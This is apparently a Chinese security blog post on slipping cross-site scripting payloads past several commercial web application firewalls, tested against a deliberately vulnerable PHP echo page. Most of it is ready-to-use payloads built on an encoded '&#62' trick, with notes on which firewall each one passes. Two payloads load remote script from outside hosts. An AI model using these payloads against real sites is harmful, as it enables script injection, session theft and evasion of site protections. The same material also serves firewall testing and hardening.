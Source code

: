 ### 前言
- - -
360主机卫士是360旗下的服务器安全软件，为站长免费提供网站后门检测、木马查杀，网站补丁、漏洞防护等服务...

![1](https://ae01.alicdn.com/kf/Uad2732ca0c4943088ca09f550ff5caccL.png)

(虽然软件几年前就停止更新，官网挂了，但是从当时的评论上看软件还是很不错的。)

### 环境
- - -
火狐

360主机卫士Apache版

phpStudy2016(PHP-5.4.45+Apache)

测试代码
```
<?php   
  $input = @$_REQUEST["xss"];
  echo "<div>".$input."</div>"
?>
```
### 测试
- - -
习惯性的直接上 Burp 用平时收集的 payload fuzz 一遍，结果不怎么理想，能过的很鸡肋...然后我就去网上找资料，找到了一篇文章[xss加入某些字符即可过大多数waf的思路及一些思考](https://mp.weixin.qq.com/s/CCc12FWWJMRP4V6x0XXaoA)根据里面的思路可以绕过。

`<svg onload>` 拦截

`<svg > onload>`不拦截

具体绕过就是先把 `>` html实体编码

![2](https://ae01.alicdn.com/kf/Ue6dc8da4a8ac4497a96828e039c729574.png)

将 `&#62` URL编码

![3](https://ae01.alicdn.com/kf/U143681d1e9b64df0b67ebab674991c93N.png)

大部分 `xss payload` 加上 `%26%2362` 即可绕过，但是类似 alert(1) 括号可能会被拦截 可以用反引号替换
```
<svg %26%2362 onload=alert`1`>
```
![4](https://ae01.alicdn.com/kf/U3529497cee1f48e7b86ccedd924109a2B.png)

给几个测试绕过的 `payload`
```
<style  %26%2362 onload=alert`1`>
<img %26%2362 src=1  onerror=alert`1`>
<audio %26%2362 src=x  onerror=alert`1`>
<svg %26%2362 onload=appendChild(createElement('script')).src='//xs.ax/HfcB'>
```

该文章在最后说明此方法可以绕过多款waf，接下来我们来测试。

`云锁`：

![5.png](https://ae01.alicdn.com/kf/Ua781c4541fce4d9287ddc4218025ee49L.png)

绕过
```
<svg %26%2362 onload=alert`1`>
```

`奇安信CDN`：

拦截
```
<svg %26%2362 onload=alert`1`>
```
![7.png](https://ae01.alicdn.com/kf/Ua119486efcd94f83881e7135b9aa13daX.png)

绕过方法(使用HTML5新标签)

`<select autofocus onfocus=[2].find(alert)>`

`安全狗`：

绕过
![8.png](https://ae01.alicdn.com/kf/U75a996f4667944d2895372a9eb417a07U.png)

`阿里云`：

拦截
![9.png](https://ae01.alicdn.com/kf/U59c6226bba53437a9ee15b9d3e5f70e1w.png)

绕过方法(这个百度下就有)
```
<img src=# onerror=alert`2`>
<input onfocus="document.body.appendChild(createElement('script')).src='//xss.xx/B6Bb'" autofocus>
```

![10.png](https://ae01.alicdn.com/kf/U3d07d821e85a4a028b8eb360e7c78a04X.png)

`百度云加速`：

绕过
![11.png](https://ae01.alicdn.com/kf/Ufe4b45196d59424c930e54b49efa091aK.png)
